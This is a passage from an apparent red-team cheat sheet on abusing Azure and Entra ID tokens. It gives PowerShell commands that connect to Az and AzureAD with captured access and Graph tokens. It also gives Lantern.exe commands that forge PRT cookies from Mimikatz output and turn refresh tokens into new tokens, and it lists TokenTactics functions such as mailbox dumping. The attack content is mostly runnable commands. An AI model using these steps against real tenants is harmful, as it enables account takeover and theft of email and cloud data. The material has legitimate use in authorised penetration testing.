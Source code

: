 > Tokens contain all the claims including that for MFA and Conditional Access

- Az Powershell
    
    ```powershell
    PS C:\Tools> $token = 'eyJ0e..'
    PS C:\Tools> Connect-AzAccount -AccessToken $token -AccountId <ACCOUNT-ID>
    
    # Access Token and Graph Token
    PS C:\Tools> $token = 'eyJ0eX..'
    PS C:\Tools> $graphaccesstoken = 'eyJ0eX..'
    PS C:\Tools> Connect-AzAccount -AccessToken $token -GraphAccessToken $graphaccesstoken -AccountId <ACCOUNT-ID>
    PS C:\Tools> Get-AzResource
    # ERROR: 'this.Client.SubscriptionId' cannot be null.
    # ---> The managed identity has no rights on any of the Azure resources. Switch to to GraphAPI
    ```
    
    ⧉ Copied!
    
- AzureAD
    
    ```powershell
    Import-Module C:\Tools\AzureAD\AzureAD.psd1
    $AADToken = 'eyJ0…'
    Connect-AzureAD -AadAccessToken $AADToken -TenantId <TENANT-ID> -AccountId <ACCOUNT-ID>
    ```
    
    ⧉ Copied!
    

### Refresh Tokens

- https://github.com/ConstantinT/Lantern
    
    ```powershell
    Lantern.exe cookie --derivedkey <Key from Mimikatz> --context <Context from Mimikatz> --prt <PRT from Mimikatz>
    Lantern.exe mdm --joindevice --accesstoken (or some combination from the token part) --devicename <Name> --outpfxfile <Some path>
    Lantern.exe token --username <Username> --password <Password>
    Lantern.exe token --refreshtoken <RefreshToken>
    Lantern.exe devicekeys --pfxpath XXXX.pfx --refreshtoken (--prtcookie / ---username + --password ) 
    ```
    
    ⧉ Copied!
    
- https://github.com/rvrsh3ll/TokenTactics
    
    ```powershell
    Import-Module .\TokenTactics.psd1
    CommandType     Name                                               Version    Source
    -----------     ----                                               -------    ------
    Function        Clear-Token                                        0.0.1      TokenTactics
    Function        Dump-OWAMailboxViaMSGraphApi                       0.0.1      TokenTactics
    Function        Forge-UserAgent                                    0.0.1      TokenTactics
    Function        Get-AzureToken                                     0.0.1      TokenTactics
    Function        Get-TenantID                                       0.0.1      TokenTactics
    Function        Open-OWAMailboxInBrowser                           0.0.1      TokenTactics
    Function        Parse-JWTtoken                                     0.0.1      TokenTactics
    Function        RefreshTo-AzureCoreManagementToken                 0.0.1      TokenTactics
    Function        RefreshTo-AzureManagementToken                     0.0.1      TokenTactics
    Function        RefreshTo-DODMSGraphToken                          0.0.1      TokenTactics